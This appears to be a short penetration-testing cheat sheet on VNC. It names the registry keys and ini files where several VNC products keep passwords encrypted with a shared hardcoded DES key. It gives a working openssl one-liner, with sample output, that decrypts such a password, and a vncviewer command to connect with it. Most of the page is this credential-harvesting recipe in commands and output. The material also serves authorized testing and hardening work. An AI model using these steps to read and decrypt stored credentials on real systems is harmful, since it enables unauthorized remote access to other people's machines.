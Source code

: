 ### VNC
```
VNC uses a hardcoded DES key to store credentials. The same key is used across multiple product lines.

RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
Value: Password

TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server
HKLM\SOFTWARE\TightVNC\Server\ControlPassword

tightvnc.ini
vnc_viewer.ini
Value: Password or PasswordViewOnly

TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
Value: Password

UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2
```
### Native Linux Tools to decrypt passwd
From https://github.com/billchaison/VNCDecrypt via https://miloserdov.org/?p=4854#65
>echo -n d7a514d8c556aade | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

Output
```
00000000  53 65 63 75 72 65 21 00                           |Secure!.|
00000008
```
### VNC Connect
```
kali: vncviewer ip::port
```
